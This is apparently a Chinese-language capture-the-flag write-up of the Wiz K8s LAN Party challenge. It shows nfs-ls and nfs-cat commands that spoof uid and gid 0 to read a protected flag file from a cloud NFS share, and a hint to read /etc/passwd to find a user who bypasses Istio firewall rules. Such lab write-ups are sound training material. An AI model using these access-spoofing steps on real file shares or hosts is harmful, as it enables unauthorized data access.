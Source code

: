## DATA LEAKAGE

> You might find it useful to look at the [documentaion](https://github.com/sahlberg/libnfs) for nfs-cat and nfs-ls.
>
> The following NFS parameters should be used in your connection string: version, uid and gid



根据提示是用了nfs，具体是用pv和pvc（相关知识有些忘了），查看一下挂载：

```bash
mount|grep -i "nfs"
fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com:/ on /efs type nfs4 (ro,relatime,vers=4.1,rsize=1048576,wsize=1048576,namlen=255,hard,noresvport,proto=tcp,timeo=600,retrans=2,sec=sys,clientaddr=192.168.4.189,local_lock=none,addr=192.168.124.98)
```

可以发现flag但是读取不了，可能就要用`nfs-cat`了。

```bash
ls /efs/
flag.txt
cat /efs/flag.txt
cat: /efs/flag.txt: Permission denied
```

但是正常连似乎连不上：

```bash
nfs-ls nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com/ 
Failed to mount nfs share : mount_cb: nfs_service failed
```



根据提示要加上一些参数，估计就是nfs版本啥的，问一下gpt说可能是3或者4，uid和gid估计就是0了

```bash
nfs-ls nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com/?version=4&uid=0&gid=0
[1] 26
[2] 27
player@wiz-k8s-lan-party:/efs$ ----------  1     1     1           73 flag.txt

nfs-cat 'nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4&uid=0&gid=0'
wiz_k8s_lan_party{old-school-network-file-shares-infiltrated-the-cloud!}
```





## BYPASSING BOUNDARIES

> Try examining Istio's [IPTables rules](https://github.com/istio/istio/wiki/Understanding-IPTables-snapshot#use-pid-to-get-iptables).
>
> Try executing "cat /etc/passwd | grep 1337", to find the user that can bypass the Istio's IPTables rules
